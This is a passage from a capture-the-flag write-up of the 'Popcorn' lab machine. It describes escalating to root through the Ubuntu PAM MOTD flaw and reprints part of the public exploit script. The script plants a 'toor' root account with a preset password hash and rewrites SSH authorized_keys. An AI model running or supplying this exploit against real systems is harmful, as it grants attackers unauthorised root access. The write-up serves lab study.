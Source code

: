 ### Path 2: Motd Exploit

When looking into the files the user had, I found one really interesting one, which was the `motd` files.

```
www-data@popcorn:/home/george/.cache$ ls -al
total 8
drwxr-xr-x 2 george george 4096 Mar 17  2017 .
drwxr-xr-x 3 george george 4096 Oct 26  2020 ..
-rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

This was interesting because **there are exploits related to this**. I found one here:

{% embed url="https://www.exploit-db.com/exploits/14339" %}

When the script was downloaded and run, I was able to spawn in a root shell.

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

## Beyond Root

I wanted to take a look at how this script works.

```bash
#!/bin/bash

P='toor:x:0:0:root:/root:/bin/bash'
S='toor:$6$tPuRrLW7$m0BvNoYS9FEF9/Lzv6PQospujOKt0giv.7JNGrCbWC1XdhmlbnTWLKyzHz.VZwCcEcYQU5q2DLX.cI7NQtsNz1:14798:0:99999:7:::'
echo "[*] Ubuntu PAM MOTD local root"
[ -z "$(which ssh)" ] && echo "[-] ssh is a requirement" && exit 1
[ -z "$(which ssh-keygen)" ] && echo "[-] ssh-keygen is a requirement" && exit 1
[ -z "$(ps -u root |grep sshd)" ] && echo "[-] a running sshd is a requirement" && exit 1
backup() {
    [ -e "$1" ] && [ -e "$1".bak ] && rm -rf "$1".bak
    [ -e "$1" ] || return 0
    mv "$1"{,.bak} || return 1
    echo "[*] Backuped $1"
}
restore() {
    [ -e "$1" ] && rm -rf "$1"
    [ -e "$1".bak ] || return 0
    mv "$1"{.bak,} || return 1
    echo "[*] Restored $1"
}
key_create() {
    backup ~/.ssh/authorized_keys
    ssh-keygen -q -t rsa -N '' -C 'pam' -f "$KEY" || return 1
    [ ! -d ~/.ssh ] && { mkdir ~/.ssh || return 1; }
    mv "$KEY.pub" ~/.ssh/authorized_keys || return 1
```